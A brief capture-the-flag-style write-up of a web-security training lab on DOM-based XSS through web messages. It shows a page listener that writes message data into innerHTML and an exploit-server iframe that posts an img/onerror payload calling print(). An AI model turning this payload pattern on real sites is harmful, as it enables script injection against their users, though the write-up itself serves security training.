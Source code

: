 # [Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

## Lab

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

## Analysis

Find scripts:

```js
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
  window.addEventListener('message', function(e) {
      document.getElementById('ads').innerHTML = e.data;
  })
</script>

```

## Solutions

craft a response at exploit server:

- body:

  ```js
  <iframe src="https://id.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

  ```
